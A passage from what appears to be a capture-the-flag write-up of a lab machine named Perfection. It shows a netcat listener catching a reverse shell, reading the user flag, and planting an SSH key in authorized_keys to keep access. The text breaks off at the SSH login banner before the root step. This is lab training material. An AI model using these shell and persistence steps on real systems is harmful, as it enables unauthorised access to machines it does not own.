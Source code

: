 I got the shell, and the user flag.

```bash
$ nc -klvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.87] from (UNKNOWN) [10.129.229.121] 51144
bash: cannot set terminal process group (994): Inappropriate ioctl for device
bash: no job control in this shell

susan@perfection:~/ruby_app$ id
id
uid=1001(susan) gid=1001(susan) groups=1001(susan),27(sudo)

susan@perfection:~/ruby_app$ ls ~
ls ~
Migration
ruby_app
user.txt

susan@perfection:~/ruby_app$ cat ~/user.txt
cat ~/user.txt
REDACTED
```

## Getting root

I added my SSH public key to the server.

```bash
susan@perfection:~/ruby_app$ cd
cd

susan@perfection:~$ mkdir .ssh
mkdir .ssh

susan@perfection:~$ echo "ssh-rsa AAAA...= " > .ssh/authorized_keys
<...= " > .ssh/authorized_keys

susan@perfection:~$ chmod 700 .ssh
chmod 700 .ssh

susan@perfection:~$ chmod 600 .ssh/authorized_keys
chmod 600 .ssh/authorized_keys
```

When I reconnected to the server with SSH, it told me I had some emails to read.

```bash
$ ssh susan@target
The authenticity of host 'target (10.129.206.180)' can't be established.
ED25519 key fingerprint is SHA256:Wtv7NKgGLpeIk/fWBeL2EmYo61eHT7hcltaFwt3YGrI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'target' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-97-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Sun Apr  7 04:22:22 PM UTC 2024

  System load:           0.0
  Usage of /:            52.9% of 5.80GB
  Memory usage:          6%
  Swap usage:            0%
```